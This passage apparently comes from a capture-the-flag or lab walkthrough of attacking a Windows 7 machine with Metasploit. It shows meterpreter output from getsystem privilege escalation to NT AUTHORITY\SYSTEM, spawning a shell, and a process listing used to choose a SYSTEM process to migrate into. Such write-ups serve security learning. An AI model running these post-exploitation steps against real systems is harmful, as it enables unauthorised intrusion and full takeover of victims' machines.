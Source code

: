 Set SESSION to the shell that you've just produced and run the attack ot get a meterpreter session.

```cli
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > shell
Process 100 created.
Channel 1 created.
whoMicrosoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whowhoami
'whowhoami' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Now we need to escalate our access to get a non-default user aka root user password. So for this I use ```ps``` to list all processes and migrate to a process that has the ID NT AUTHORITY\SYSTEM

```cli
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 432   688   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 688   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 716   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 724   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 764   688   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 824   688   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 896   688   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 948   688   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1084  688   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1164  688   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
```